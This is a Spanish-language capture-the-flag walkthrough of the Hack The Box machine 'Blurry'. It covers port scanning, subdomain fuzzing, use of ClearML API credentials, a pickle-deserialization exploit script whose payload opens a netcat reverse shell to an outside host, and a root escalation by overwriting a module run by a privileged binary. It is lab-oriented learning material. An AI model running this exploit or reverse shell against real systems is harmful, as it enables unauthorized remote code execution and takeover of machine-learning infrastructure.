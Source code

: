 #medium #tecnicas #windows #fuzzing 
### Ping
```python
ping -c 1 10.10.11.19
PING 10.10.11.19 (10.10.11.19) 56(84) bytes of data.
64 bytes from 10.10.11.19: icmp_seq=1 ttl=63 time=152 ms

--- 10.10.11.19 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 152.472/152.472/152.472/0.000 ms
```

### TTL 63 = Linux

### nmap
```python
# Nmap 7.94SVN scan initiated Sun Jun  9 12:19:54 2024 as: nmap -p- --open -sC -sV --min-rate 3000 -n -Pn -oN Scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.15s latency).
Not shown: 65477 closed tcp ports (reset), 56 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Did not follow redirect to http://app.blurry.htb/
|_http-server-header: nginx/1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun  9 12:20:32 2024 -- 1 IP address (1 host up) scanned in 38.23 seconds
```

### Enumeración del puerto 80 (http)

tenemos una web que nos permite iniciar sesión con un usuario aleatorio. en este caso usamos admin
![[Pasted image 20240612120028.png]]

`admin`
después de iniciar sesión podemos identificar un proceso que se esta ejecutando
![[Pasted image 20240612120032.png]]

`experiments`
después de hacer clic en el proceso podemos ver el file path de un archivo en la web. se encuentra en otro subdominio así que vamos a enumerar
![[Pasted image 20240612120037.png]]

### Fuzzing con wfuzz

enumerando subdominios podemos encontrar efectivamente el subdominio donde se encuentra el archivo que hemos visto anteriormente y tenemos uno mas llamado `chat` 
![[Pasted image 20240612120045.png]]

### Api
podemos obtener las credenciales de una api lo cual es bueno.
![[Pasted image 20240612120049.png]]

### clearml-ini
al abrir `clearml-ini` vamos a ingresar las credenciales de la api que creamos esto nos creara un archivo `clearml.config` en el home 
![[Pasted image 20240612120135.png]]

### exploit
en esta web nos muestra un ejemplo de como aprovechar la vulnerabilidad para subir un archivo y poder tener ejecución de comandos usaremos este ejemplo para crear nuestro propio exploit para poder cargar un archivo a la maquina llamado `ddd-task` con la reverse shell 
![[Pasted image 20240612120142.png]]

### upload_pwned.py
```python
```python
import os
from clearml import Task

class RunCommand:
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.40 9001 >/tmp/f"
        return (os.system, (cmd,))

command = RunCommand()

task = Task.init(project_name="Black Swan",
                 task_name="ddd-task",
                 tags=["review"],
                 task_type=Task.TaskTypes.data_processing,
                 output_uri=True)

task.upload_artifact(name="ddd_artifact",
                     artifact_object=command,
                     retries=2,
                     wait_on_upload=True)

task.execute_remotely(queue_name='default')
```

### shell
ahora solo debemos ejecutar el exploit y estaremos a la escucha para obtener la reverse shell. se subirá una nueva tarea al proyecto y luego de eso debemos esperar que se complete. 
`Nota# si no obtenemos la shell podemos usar ```clearml-agent execute --id``` pasandole el id de nuestra tarea para que se ejecute. y luego solo debemos esperar un rato para que este proceso se complete` 
![[Pasted image 20240612120154.png]]

### Escalada De privilegios

tenemos permisos sobre el binario `/usr/bin/evaluate_model /models/*.pth` así que podemos usarlo para explotar una escalada de privilegios
![[Pasted image 20240612120200.png]]

`este script esta llamdo a otro script llamado /modules/evaluate_model.py haciendo uso de la funcion /models/*.pth esto nos va a permitir modificar el archivo para poder escalar privilegios`
![[Pasted image 20240612120205.png]]

`eliminamos el archivo existente y creamos uno nuevo que contenga una bash y como el archivo se esta ejecutando como root pues obtenemos una root shell`

```python
echo -e 'import pty\npty.spawn("/bin/bash")' > evaluate_model.py
```

![[Pasted image 20240612120211.png]]

### WR ARE ROOT